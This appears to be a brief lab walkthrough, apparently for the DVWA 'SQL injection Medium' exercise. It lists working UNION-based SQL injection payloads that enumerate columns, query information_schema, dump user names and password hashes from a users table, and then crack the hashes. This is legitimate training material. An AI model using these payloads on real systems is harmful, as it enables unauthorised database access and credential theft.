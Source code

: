 ## SQL injection Medium
0. Go to elements and change option value. Use brower inspect-element to modify HTTP.
 - Headers: HTTP POST request
 - Payload: Formdata
 - Cookies: PHPSESSION, security level

1. Get  Error
`SELECT first_name, last_name FROM users WHERE user_id = '''`

2. Get the number of columns
`1' order by 2` -> Error since '1' is a string
`1 order by 2` -> Work because 1 is a number

3. Get columns from user table
`1 UNION SELECT column_name, table_name FROM information_schema.tables #`

4. Get id & pwd
`1 UNION SELECT user, password FROM users#`

5. Crack the password
crackstation


